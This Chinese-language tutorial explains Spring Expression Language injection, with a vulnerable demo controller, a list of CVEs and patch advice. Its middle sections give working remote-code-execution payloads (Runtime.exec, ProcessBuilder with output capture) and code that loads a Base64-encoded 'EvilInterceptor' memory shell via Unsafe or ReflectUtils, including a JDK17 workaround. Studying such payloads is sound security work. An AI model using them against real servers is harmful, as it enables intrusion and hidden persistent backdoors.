

# 0x01 What Is SpEL

SpEL：Spring Expression Language 一种表达式语言，支持在运行时查询和操作对象图，类似于EL表达式。

SpEL 的诞生是为了给 Spring 社区提供一种能够与Spring 生态系统所有产品无缝对接，能提供一站式支持的表达式语言。

SpEL基本语法：
SpEL使用 `#{...}`作为定界符，大括号内被视为SpEL表达式，里面可以使用运算符，变量，调用方法等。使用 `T()` 运算符会调用类作用域的方法和常量，如`#{T(java.lang.Math)}`返回一个java.lang.Math类对象

`#{}`和`${}`的区别：

* `#{}` 用于执行SpEl表达式，并将内容赋值给属性
* `${}` 主要用于加载外部属性文件中的值

SpEL常用在三个地方。

1. Value注解
   （注：这个类要通过依赖注入才能使Value注解生效，直接new对象是不行的）

   ```java
   package com.example.demo1.bean;
   
   import org.springframework.beans.factory.annotation.Value;
   import org.springframework.context.annotation.PropertySource;
   import org.springframework.stereotype.Component;
   
   @Component
   @PropertySource({"classpath:/configure.properties"})
   public class User {
       @Value("${spring.user.name}")
       public String userName; // 值来自application.properties
       @Value("${home.dorm}")
       public String address; // 值来自configure.properties(放在resources文件夹下)
       @Value("#{T(java.lang.Math).random()}")
       public double age;
       @Value("#{systemProperties['os.name']}")
       public String sys; // 注入操作系统属性
   }
   ```

   ```xml
   // configure.properties
   home.dorm=Room402,Unit4,Building3,No.34.LousyLoad
   // application.properti
   spring.user.name=Taco
   ```

   输出如下：
   `User{userName='Taco', address='Room402,Unit4,Building3,No.34.LousyLoad', age=0.5913714334107036, sys='Windows 10'}`

2. XML

   ```xml
   <bean id="Book" class="com.example.bean">
   	<property name="author" value="#{表达式}">
   </bean>
   ```

3. Expression接口

   ```java
   @Test
   public void spelTest() {
       ExpressionParser parser = new SpelExpressionParser();
       Expression expression = parser.parseExpression("('Hello '+'SpEL').concat(#end)");
       EvaluationContext context = new StandardEvaluationContext();
       context.setVariable("end", "!");
       System.out.println(expression.getValue(context));
   }
   ```

   输出`Hello SpEL!`

# 0x02 Way To Attack

实际情况下，一般都是基于上面第三种SpEL的使用场景出现的漏洞。
下面简单分析一下SpEL在求表达式值的过程

> 1.创建解析器 new SpelExpressionParser()
> 2.解析表达式 parseExpression(your_expression)
> 3.构造上下文 new StandardEvaluationContext() 默认为这个
> 4.求值 expression.getValue(context)

漏洞利用前提

> 1.服务器接收用户输入的表达式
> 2.表达式解析之后调用了getValue
> 3.使用StandardEvaluationContext作为上下文对象

```java
@RestController
public class SpELController {
    @GetMapping("spel")
    public String spel(@RequestParam(name="cmd")String cmd) {
        System.out.println("Hello SpEL!!!");
        ExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(cmd);
        Object obj = expression.getValue();
        return obj.toString();
    }
}
```

这段代码中，可注入的点在请求参数cmd
访问`http://localhost:8080/spel?cmd=T(java.lang.Runtime).getRuntime().exec(%27calc%27)`
成功弹出计算器

# 0x03 Injection Tricks

一些trivial的payload

```java
new java.lang.ProcessBuilder(new String[]{"caslc"}).start()
```

```java
T(java.lang.Runtime).getRuntime().exec("calc")
```

命令执行带返回结果的：

```java
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("whoami").start().getInputStream())).readLine()
```

```java
new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream(), "GBK").useDelimiter("xxx").next()
```

利用js引擎可以实现更加复杂的操作，如注入内存马

```java
public static void main(String[] args) throws Exception {
    byte[] bytes = ClassPool.getDefault().get("EvilInterceptor").toBytecode();
    String s = Base64.getEncoder().encodeToString(bytes);
    String cmd = "T(javax.script.ScriptEngineManager).newInstance().getEngineByName('js').eval(\"" + makeJsDefinedClass("EvilInterceptor", s) + "\")";
    System.out.println(cmd);
}

public static String makeJsDefinedClass(String classname, String encoded) {
    return "var data = '" + encoded + "';" +
        "var bytes = java.util.Base64.getDecoder().decode(data);" +
        "var cls = java.lang.Class.forName('sun.nio.ch.Util');" +
        "var method = cls.getDeclaredMethod('unsafe');" +
        "method.setAccessible(true);" +
        "var unsafe = method.invoke(cls);" +
        "var classLoader = java.lang.Thread.currentThread().getContextClassLoader();" +
        "var evil = unsafe.defineClass('" + classname + "', bytes, 0, bytes.length, classLoader, null);" +
        "evil.newInstance();";
}
```

这里利用的是`Unsafe`去`defineClass`加载字节码

实际上Spring框架中`org.springframework.cglib.core.ReflectUtils`就提供了一系列反射有关的方法，其中就包括了字节码加载`defineClass`。

```java
byte[] bytes = ClassPool.getDefault().get("EvilInterceptor").toBytecode();
String s = Base64.getEncoder().encodeToString(bytes);
String cmd = "T(org.springframework.cglib.core.ReflectUtils).defineClass('EvilInterceptor',T(org.springframework.util.Base64Utils).decodeFromString('" + s + "'),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()";
System.out.println(cmd);
```

高版本JDK（>=9）引入了命名模块机制，`java.*`下的非公开变量和方法不能被其他模块直接访问，JDK11还只会提示warning，而在JDK17中会强制开启，直接报错

上面的payload执行后会报错

> java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(java.lang.String,byte[],int,int,java.security.ProtectionDomain) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to unnamed module @635eaaf1



`java.lang.ClassLoader#defineClass`不是公开方法，无法被其他模块访问


```java
byte[] bytes = ClassPool.getDefault().get("org.springframework.expression.EvilInterceptor").toBytecode();
String s = Base64.getEncoder().encodeToString(bytes);
String cmd = "T(org.springframework.cglib.core.ReflectUtils).defineClass('org.springframework.expression.EvilInterceptor',T(java.util.Base64).getDecoder().decode('" + s + "'),T(java.lang.Thread).currentThread().getContextClassLoader(), null, T(java.lang.Class).forName('org.springframework.expression.ExpressionParser'))";
System.out.println(cmd);
```


# 0x04 CVE To Study

* CVE-2022-22980 Spring Data MongoDB SpEL表达式注入
* CVE-2022-22963 SpringCloud Function SpEL表达式注入
* CVE-2022-22947 Spring Cloud Gateway 远程代码执行

# 0x05 Patch

`SimpleEvaluationContext`、`StandardEvaluationContext` 是 SpEL提供的两个 `EvaluationContext`

`SimpleEvaluationContext` 旨在仅支持 SpEL 语言语法的一个子集。它不包括 Java 类型引用，构造函数和 bean 引用

用`SimpleEvaluationContext`替换默认的`StandardEvaluationContext`，就能有效防止恶意SpEL表达式的执行。

